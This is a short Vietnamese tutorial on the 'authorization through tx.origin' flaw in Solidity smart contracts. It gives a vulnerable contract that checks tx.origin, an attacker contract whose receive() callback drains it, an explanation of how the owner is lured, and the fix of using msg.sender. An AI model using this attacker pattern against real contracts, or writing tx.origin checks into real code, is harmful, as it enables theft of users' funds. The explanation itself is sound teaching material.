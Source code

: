 # Authorization through `tx.origin`

## Mô tả

Lỗ hổng này xảy ra khi smart contract dùng giá trị `tx.origin` để xác thực. Giá trị này là giá trị của địa chỉ thực hiện giao dịch và nếu smart contract A có gọi thực thi hàm của smart contract B thì smart contract B có thể vượt qua xác thực của smart contract A.

Ví dụ, xét hai smart contract sau:

```sol
contract VictimContract {
  
  address owner;

  constructor() {
    owner = payable(msg.sender);
  }

  function withdrawFunds(address to) public {
    require(tx.origin == owner);
    uint256 contractBalance = address(this).balance;
    (bool suceed, ) = to.call{value: contractBalance}("");
    require(suceed, "Failed withdrawal");
  }
  
}

contract Attacker {
  
  address owner;
  VictimContract victim;
  
  constructor(VictimContract _victim) {
    owner = payable(msg.sender);
    victim = VictimContract(_victim);
  }
  
  receive() external payable {
    victim.withdrawFunds(owner);
  }
  
}
```

Smart contract `VictimContract` cho phép chủ sở hữu rút ETH thông qua hàm `withdrawFunds` bằng cách dùng hàm `call` để gửi ETH cho địa chỉ `to`. Hàm này thực hiện xác thực bằng cách so sánh `tx.origin` với địa chỉ của chủ sở hữu. 

Để nhận ETH, smart contract `Attacker` đã cài đặt hàm `receive`. Tuy nhiên, hàm này thực hiện gọi lại hàm `withdrawFunds` của `VictimContract` với đối số là `owner` của `Attacker`.

Kẻ tấn công sẽ tìm cách dụ chủ sở hữu của smart contract chuyển ETH cho `Attacker`. Khi đó, `tx.origin` sẽ có giá trị là `owner` và việc gọi lại hàm `withdrawFunds` của `Attacker` sẽ thỏa điều kiện xác thực `tx.origin == owner`.

## Cách khắc phục

Sử dụng `msg.sender` thay vì `tx.origin` để xác thực.